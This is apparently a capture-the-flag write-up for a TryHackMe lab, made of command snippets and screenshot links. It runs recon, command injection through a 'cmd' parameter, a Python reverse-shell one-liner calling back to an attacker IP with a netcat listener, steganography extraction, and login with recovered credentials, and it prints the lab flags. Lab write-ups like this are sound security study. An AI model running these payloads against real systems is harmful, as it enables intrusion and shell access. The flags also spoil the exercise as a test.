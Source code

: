 ```bash
nmap -F 0.0.0.0
```

![[Captura desde 2024-09-07 20-00-04.png]]

```bash
dirb http://0.0.0.0
```

![[Captura desde 2024-09-08 10-37-24.png]]

```bash
http://10.10.130.46/assets/index.php?cmd=ls
```

![[Captura desde 2024-09-08 10-46-24.png]]

```bash
echo 'aW1hZ2VzCmluZGV4LnBocApzdHlsZXMuY3NzCg==' | base64 -d
```

![[Captura desde 2024-09-08 11-38-08.png]]

![[Captura desde 2024-09-08 11-37-27.png]]

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.195.83",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```bash
nc -lvnp 8888
```

![[Captura desde 2024-09-08 11-47-28.png]]

`AllmightForEver!!!`

![[Captura desde 2024-09-08 11-52-24.png]]

```bash
wget http://0.0.0.0/assets/images/oneforall.jpg
```

```bash
exiftool oneforall.jpg
```

![[Captura desde 2024-09-08 20-28-54.png]]

`https://en.wikipedia.org/wiki/List_of_file_signatures`

![[Captura desde 2024-09-08 20-34-58.png]]

save the file

```bash
steghide extract -sf oneforall.jpg -p 'AllmightForEver!!!'
```

![[Captura desde 2024-09-08 20-36-53.png]]

Username: `deku`
Password: `One?For?All_!!one1/A`

go back to reverse shell run it again and enter this command

```bash
su deku
```

```bash
cat user.txt
```

![[Captura desde 2024-09-08 20-46-43.png]]

**flag: `THM{W3lC0m3_D3kU_1A_0n3f0rAll??}`**

Username: `deku`
Password: `One?For?All_!!one1/A`

```bash
ssh deku@0.0.0.0 -p 22
```

![[Captura desde 2024-09-09 10-22-01.png]]

**flag: `THM{Y0U_4r3_7h3_NUm83r_1_H3r0}`**